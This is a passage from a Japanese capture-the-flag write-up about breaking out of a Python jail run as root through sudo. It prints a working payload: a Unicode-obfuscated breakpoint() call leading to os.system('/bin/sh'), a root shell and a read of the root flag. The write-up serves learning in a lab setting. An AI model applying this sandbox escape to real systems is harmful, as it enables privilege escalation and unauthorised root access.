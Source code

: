 ```sh
>> who
Wrong Input
>> last
Wrong Input
>>
```

- help のような NG ワードを入れると即終了する。
- 殆どの単語は「間違い」として次を入力できる。
- id と入れたときは何も表示されなかった。

```sh
Illegal Input
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail
  Will you stay locked forever
  Or will you BreakMe
>> print('hello')
hello
```

基本的には、与えた Python 命令を実行する機能と思われる。

```python
# Illegal
print(open('/root/root.txt').read())
print(1+1)
print("hello")
print(os.__dict__)
print(os)
print('os.__dict__')
```

ギブアップ。

https://shirajuki.js.org/blog/pyjail-cheatsheet#unicode-bypass

```
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail
  Will you stay locked forever
  Or will you BreakMe
>> 𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()
--Return--
> <string>(1)<module>()->None
(Pdb) import os;os.system("/bin/sh")
# id
uid=0(root) gid=0(root) groups=0(root)
```

- まず、breakpoint() のテクニック自体を知らなかった
- さらに、Unicode バイパスというテクニックも初見

```sh
# cat /root/.root.txt
e257............................
```
